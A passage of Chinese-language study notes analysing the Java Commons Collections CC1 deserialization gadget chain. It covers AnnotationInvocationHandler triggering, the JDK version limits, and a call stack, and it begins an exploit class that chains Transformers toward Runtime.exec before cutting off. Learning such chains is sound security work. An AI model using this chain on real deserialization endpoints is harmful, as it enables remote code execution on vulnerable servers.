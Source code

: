 然后就是如何触发到这个invoke方法了,这里之前提到它是一个动态代理类,所以当我们执行某个静态方法的时候,就能够自动触发invoke了

就地取材,AnnotationInvocationHandler的readObject中就有调用静态方法的过程

```java
for(Iterator var8 = var4.entrySet().iterator(); var8.hasNext(); var7.put(var10, var11))
```

这里的entrySet会触发invoke,进而激活下面的流程

注意测试版本是大约在121以下进行测试,下面会说高版本在哪里进行了限制

### 0x.3高版本关于AnnotationInvocationHandler的处理

首先先看调用栈

```java
readObject:452, AnnotationInvocationHandler (sun.reflect.annotation) [2]
invoke0:-1, NativeMethodAccessorImpl (sun.reflect)
invoke:62, NativeMethodAccessorImpl (sun.reflect)
invoke:43, DelegatingMethodAccessorImpl (sun.reflect)
invoke:498, Method (java.lang.reflect)
invokeReadObject:1058, ObjectStreamClass (java.io)
readSerialData:1900, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
defaultReadFields:2000, ObjectInputStream (java.io)
readSerialData:1924, ObjectInputStream (java.io)
readOrdinaryObject:1801, ObjectInputStream (java.io)
readObject0:1351, ObjectInputStream (java.io)
access$300:206, ObjectInputStream (java.io)
readFields:2164, ObjectInputStream$GetFieldImpl (java.io)
readFields:541, ObjectInputStream (java.io)
```

这里对lazymap的键值对取出之后,再对其进行封装LinkedHashMap,导致我们后续无法调用到lazymap的get方法了

![image-20231217143657189](H:/Typora%E7%AC%94%E8%AE%B0/%E5%AE%89%E5%85%A8%E7%AC%94%E8%AE%B0/javasecurityRe0/CC1系-反射调用Runtime/img/image-20231217143657189.png)



### 0x.4分块解析链

```java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.LazyMap;

import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.ObjectInputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Constructor;
import java.lang.reflect.InvocationHandler;
import java.lang.reflect.Proxy;
import java.util.HashMap;
import java.util.Map;


//AnnotationInvocationHandler.readObject()->LazyMap.getValue()->LazyMap.get()->ChainedTransform.Transform()->InvokerTransformer.Transform()
public class CC1newend {
    public static void main(String[] args) throws Exception {
        //通过Transformer数组来间接加载到runtime.getRuntime.exec
        Transformer[] transformers=new Transformer[]{
                new ConstantTransformer(Runtime.class),
```